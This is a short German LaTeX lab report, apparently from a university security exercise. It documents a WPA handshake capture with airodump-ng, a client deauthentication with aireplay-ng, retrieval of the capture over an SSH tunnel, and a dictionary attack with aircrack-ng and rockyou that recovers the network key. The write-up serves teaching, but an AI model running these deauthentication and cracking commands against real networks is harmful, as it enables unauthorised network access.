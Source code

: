 \documentclass[12pt, a4paper, titlepage, oneside]{scrartcl}
\begin{document}
Als nächstes ging es darum einen Handshack zu erfassen wofür wir als erstes die Packete jedes seperaten Channel abfangen mussten. Dies konnten wir mit folgendem Befehl erreichen:

\begin{lstlisting}
sudo airodump-ng --output-format pcap scanhost-wlan0 -c Channel
\end{lstlisting}

Anschließend wurde folgender Befehl ausgeführt, um einen Client vom Access Point zu trennen, und die im Dump enthaltenen EAPOL-Packete zu erhalten.

\begin{lstlisting}
sudo aireplay-ng -0 2 -a BSSID -c STATION scanhost-wlan0
\end{lstlisting}

Im nächsten Schritt müssen wir zum Scan-Host Tunneln um die zuvor erstellte .cap Datei zu erhalten und anschließend auf unser lokales Gerät zu kopieren. Dies konnten wir mit den folgenden Befehlen erreichen:

\begin{lstlisting}
ssh -L 2222:10.10.10.144:2222 eXXXXXXXX@tese.esse-teaching.at -p 12345
scp -P 2222 eisec_team44@localhost:/home/eisec_team44/dumpfile_ ~/Documents
\end{lstlisting}

Nun wo sich der WLAN-Dump auf dem lokalen Gerät befindet, können wir einen Brute Force Angriff auf das File ausführen womit wir versuchen die Verschlüsslung des Netzwerks zu knacken. Dazu haben wir eine Liste an bekannten Passwörtern verwendet und folgenden Befehl ausgefüht:

\begin{lstlisting}
aircrack-ng -w /path/to/rockyou.txt dumpfile.cap
\end{lstlisting}

Nach der Ausführung des Angriffs haben wir den korrekten Schlüssel erhalten. Dies ist in Abbildung \ref{fig:schluesselGefunden} zu sehen.

\begin{figure}[h]
\centering
\includegraphics[width=0.75\textwidth]{imgs/Wireless Time Travel/schluesselGefunden.png}
\caption{Gefundener Schlüssel}
\label{fig:schluesselGefunden}
\end{figure}
\end{document}
